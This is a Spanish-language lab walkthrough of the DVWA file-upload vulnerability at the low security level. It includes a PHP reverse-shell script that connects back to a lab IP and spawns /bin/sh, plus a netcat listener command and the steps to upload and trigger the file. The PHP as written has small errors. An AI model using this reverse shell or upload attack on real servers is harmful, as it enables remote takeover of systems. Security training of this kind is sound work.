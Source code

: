 # File Upload

La vulnerabilidad **File Upload** se produce cuando una aplicación web incorpora archivos externos en sus operaciones basadas en la entrada proporcionada por el usuario sin validar adecuadamente la entrada. \
Esto puede permitir a los atacantes manipular el contenido de los archivos incluidos o incluso ejecutar código malicioso.
En esta sección se lleva a cabo un ejemplo de ataque utilizando esta vulnerabilidad.

## Level: Low
```
<?php

$ip=192.168.5.137; #IP del servidor DVWA
$port=9001; #Puerto de escucha
$sock=fsockopen($ip, $port);
exec("bin/sh -i <&3 >&3 2>&3");

?>
```

Se carga este archivo desde el cargador del servidor.
![Carga archivo](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/file_upload/asset/carga_archivo.png)

Ahora se crea un listener con **netcat**, que será donde se tendra acceso al servidor atacado (DVWA).

```
nc -lvnp 9001
```

Luego, desde la barra de direcciones se puede ejecutar el archivo malicioso.


